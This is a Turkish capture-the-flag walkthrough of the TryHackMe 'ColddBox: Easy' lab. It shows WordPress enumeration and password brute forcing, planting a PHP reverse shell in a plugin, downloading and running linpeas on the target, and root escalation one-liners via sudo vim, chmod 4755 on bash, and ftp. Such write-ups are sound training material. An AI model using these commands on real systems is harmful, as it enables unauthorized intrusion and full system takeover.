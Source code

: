 # TRYHACKME ColddBox : Easy WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/colddboxeasy adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 10.10.174.16 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/c1.png)

Tarama sonucunda 4512 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine girince websitesinin wordpress ile yapılmış olduğunu görüyoruz.


![Resim2](pics/c2.png)

Wordpress sitelerine saldırı yapmak için hazırlanmış wpscan aracı ile recon yapmaya başlıyoruz: 

```bash
wpscan --url http://10.10.174.16/ --enumerate 
```
--url hedefi belirtir 

--enumerate websitesi hakkında olabildiğince bilgi edinmemizi sağlar 

![Resim4](pics/c3.png)

![Resim4](pics/c4.png)

Tarama sonucunda wpscan aracı birkaç kullanıcı ismi buluyor . Bu kullanıcıların şifresini öğrenmek için brute force yapıyoruz: 

```bash
wpscan --url http://10.10.174.16/ -U users.txt -P rockyou.txt 
```
--url hedefi belirtir  

-U kullanıcı adlarının bulunduğu dosyayı belirtir

-P şifrelerin bulunduğu dosyayı belirtir

![Resim4](pics/c5.png)

Ve c0ldd kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile websitesine giriş yaptıktan sonra webshell yüklemek için akismet pluginini editleyerek içerisine https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php hazır webshell dosyasının kodlarını yazıyoruz (içerisindeki portu ve ip adresini kendi ipmiz ve kullanmak istediğimiz port ile değiştiriyoruz tabi) . akismet.php dosyasını güncelledikten sonra netcat aracı ile kullanmak istediğimiz portu dinlemeye alıyoruz:   


```bash
nc -lvnp 1337
```
-l dinlemeye geçer 

-v ekstra bilgi verir 

-n dns sorgusunu iptal eder direk ip ile çalışır 

-p port numarasını belirtir

![Resim5](pics/c6.png)

Ardından plugins sayfasında akismet pluginini activate edince içerdeyiz: 

![Resim5](pics/c7.png)

Yetki yükseltme adımını otomatikleştirmek için linux yetki yükseltme aracı olan linpeas i pentest makinemize yüklüyoruz: 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

-L curl aracına site yönlendirmelerini takip etmesini söyler 

daha sonra dosyayı gönderebilmek için python ile websrever açıyoruz: 

```bash
python3 -m http.server 7000
```

-m kullanılacak modül belirtir 

Hedefte dosyayı herkesin yazma yetkisi olan bir yere yükleyip çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash 
cd /dev/shm
```
```bash
wget http://_tryhackme_vpn_ip_adresimiz:7000/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```

![Resim5](pics/c8.png)

Tarama sonucunda c0ldd kullanıcısının şifresinin wp-config.php dosyasında yazılı olduğunu görüyoruz ve ardından ssh ile c0ldd kullanıcısı olarak sisteme giriş yapıyoruz:  

```bash 
ssh -p 4512 c0ldd@10.10.174.16
```
-p ssh portunu belirtir

ardından root yetkisi ile çalıştırabileceğimiz komutları öğrenmek için aşağıdaki komutu kullanıyoruz: 

```bash
sudo -l
```

-l yetkileri listeler

Çıktı sonucunda yetkilerimizi 3 farklı yol ile yükseltebileceğimizi görüyoruz. Vim ile yetki yükseltmek için https://gtfobins.github.io/gtfobins/vim/ sayfasına gidiyoruz  

![Resim5](pics/c12.png)

Ve aşağıdaki komut ile yetki yükseltebileceğimizi görüyoruz: 

```bash
sudo vim -c ':!/bin/sh'
```
-c vime çalıştırması gereken programı söyler

![Resim5](pics/c13.png)

chmod komutu ile yetki yükseltmek için ise aşağıdaki komutu kullanıyoruz: 

```bash
sudo chmod 4755 /bin/bash && /bin/bash -p
```
4 suid biti ayarlar yani program her zaman kendi sahibi adına çalışır 
7 dosya sahine read, write, execute yetkisi verir 
5 dosya grubuna read ve execute yetkisi verir 
5 herkese read ve execute yetkisi verir 
&& ve demektir ard arda birden fazla komutu tek satırda çalıştırmak için kullanılır 
-p bash güvenlik nedeniyle root shell i düşürür . Ama bu parametre ile suid varsa shell kalır  

![Resim5](pics/c14.png)

Ftp ile yetki yükseltmek için aşağıdaki komutları kullanıyoruz:

```bash
sudo ftp
```
```bash
!/bin/sh
```

bu sayede ftp üzerinden sh shell açmış oluyoruz. Başka bir yetki yükseltme yöntemi ise suid biti olan find komutu ile yetki yükseltmek . Bunu yapmak için öncelikle sistemdeki tüm suid bitine sahip dosyaları buluyoruz: 

```bash
find / -perm -u=s -type f 2>/dev/null
```
-perm dosyaların izinlerini kontrol eder 

-u=s user (sahip) için suid biti ayarlanmış mı kontrol eder 

-type f  dosya türü f(file) belirtir 

2>/dev/null kontrol etmeye yetkimiz olmayan dosyalar hata verdirecektir. Hata mesajlarını (2>) çöpe(/dev/null) atar 

Ve artık root olunabilecek tüm yollarla root olmanın verdiği üstünlük hissi ile odayı bitiriyoruz. 
